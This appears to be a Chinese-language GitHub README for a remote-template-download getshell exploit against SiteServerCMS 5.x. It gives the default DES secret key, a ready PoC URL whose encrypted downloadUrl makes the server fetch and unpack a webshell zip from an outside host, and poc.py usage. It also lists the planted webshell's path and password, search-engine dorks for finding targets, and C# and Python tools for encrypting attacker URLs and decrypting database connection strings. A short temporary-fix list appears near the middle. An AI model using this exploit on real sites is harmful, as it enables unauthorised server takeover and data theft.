 ## SiteServerCMS-Remote-download-Getshell-vulnerability

SiteServerCMS 远程模板下载Getshell漏洞

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/598750731.jpg)

漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀.先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。

且SecretKey在5.0是默认值
> vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5

### References

Author:1u0hun

[简记野生应急捕获到的siteserver远程模板下载Getshell漏洞](https://www.freebuf.com/articles/web/195105.html)



### Affected Version
SiteServerCMS 5.x

SiteServerCMS 4.x(测试没通过)

### PoC
Author:We1h0@PoxTeam

> http://localhost/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0&directoryName=sectest


```
python2 poc.py -u http://localhost
```
![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/494367940.jpg)

```
python2 poc.py -f url.txt
```

Ps:注意最后面没/

WebShell:http://localhost/SiteFiles/SiteTemplates/sectest/include.aspx

PassWord:admin



### 搜索引擎关键字:

inurl:/sitefiles/services

inurl:/siteserver/login.aspx

### 临时修复方案
修改 

> 1.C:/WebSite/SiteFiles/Configuration/Configuration.config

secretKey的值

> 2.然后修改web.config下的DatabaseType/ConnectionString 都是通过下面的加密工具进行加密的字符串.
> 3.更改后台地址
> 4.更改(或移除模板下载功能)/SiteServer/Ajax/ajaxOtherService.aspx路径

### downloadUrl加密工具
#### C#
[VSCODE配置C#](https://blog.csdn.net/qq_40346899/article/details/80955788)

<CODE>dotnet new console -o test</CODE>

<CODE>dotnet run</CODE>
生成目录后的Program.cs替换以下代码

1.然后修改_inputString的值(你指定的下载地址)
```C#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/webshell/poxteam.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/545223712.jpg)

2.把出来的结果丢这里

Python

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw=="
str_decry = str_decry.replace("+", "0add0").replace("=", "0equals0").replace("&", "0and0").replace("?", "0question0").replace("/", "0slash0")

print str_decry
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1213922991.jpg)

得出转义后的下载链接，修改Poc.py 

<code>/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=这里&directoryName=sectest</code>

### downloadUrl解密工具

(也可以用来解web.config的数据库链接信息,密钥不变的情况下,如果密钥变了找SiteFiles/Configuration/Configuration.config的secretKey的值)

1.先用python的还原

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0"
str_decry = str_decry.replace("0add0", "+").replace("0equals0", "=").replace("0and0", "&").replace("0question0", "?").replace("0slash0", "/")

print str_decry

```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1853999564.jpg)

2.再用c#以下的代码还原回默认下载链接

```c#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw==";
        var _outString = ""; 
        var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try
        { 
          var byKey = Encoding.UTF8.GetBytes(_decryptKey.Substring(0, 8)); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Convert.FromBase64String(_inputString);
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateDecryptor(byKey, iv), CryptoStreamMode.Write);
              cs.Write(inputByteArray, 0, inputByteArray.Length);
              cs.FlushFinalBlock();
          Encoding encoding = new UTF8Encoding();
          _outString = encoding.GetString(ms.ToArray());
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
 
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1818119636.jpg)
